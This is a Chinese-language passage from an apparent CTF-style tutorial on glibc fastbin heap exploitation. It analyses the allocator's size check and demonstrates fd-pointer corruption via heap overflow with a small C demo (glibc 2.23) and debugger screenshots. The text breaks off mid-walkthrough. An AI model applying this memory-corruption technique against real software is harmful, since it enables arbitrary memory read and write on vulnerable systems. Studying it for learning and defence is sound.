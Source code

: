 这里安全性检查的部分只有一个地方，22行。当取出该chunk之前，会首先检查该chunk的size部分是不是和它所存放在的fastbin链表的idx值相同。假如说取出的是0x30的chunk，那么改chunk的size区域的8byte的值也必须是0x30（当然实际情况应该是0x31，因为有AMP三位的存在。但是`chunksize()`函数会忽略掉低三位）。

根据上面的源码分析，我们可以发现Fastbin机制对chunk的安全性检查并不是很多。所以，我们可以利用以下缺陷进行漏利用。

## 修改fd指针

### Heap Overflow

由于malloc的一块区域很可能是程序上次free的，同时free了之后并不会清空chunk的data。那么如果出现了heap overflow，

并且fastbin已经成链的情况下，我们可以通过覆写free chunk的fd的数据，来将我们想要的内存区域放入Fastbin中，然后再malloc取出想要的内存区域进行读写。下面是Nu1L Book中的一个简单例子：

```c
/*Glibc 2.23*/
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

typedef struct animal {
    char desc[0x8];
    size_t lifetime;
}Animal;

void main() {
    Animal *A = malloc(sizeof(Animal));
    Animal *B = malloc(sizeof(Animal));
    Animal *C = malloc(sizeof(Animal));

    char *target = malloc(0x10);
    memcpy(target,"THIS IS A SECRET", 0x10);

    malloc(0x80);
    free(C);
    free(B);

    char *payload = "AAAAAAAAAAAAAAAAAAAAAAAA\x21\x00\x00\x00\x00\x00\x00\x00\x60";
    memcpy(A->desc, payload, 0x21);
    Animal *D = malloc(sizeof(Animal));
    Animal *E = malloc(sizeof(Animal));
    write(1,E->desc,0x10);
}
```

由于是演示代码，那就一边调试一边看好了。我们首先先将前面的四个malloc过掉，看下目前heap的结构：

![heap](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231212205338151.png)

自上而下3个0x20的chunk就是我们malloc 的三个。0x602060的chunk是target块。我们接着向下，向target内写入0x10个字符：

![heap](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231212205641175.png)

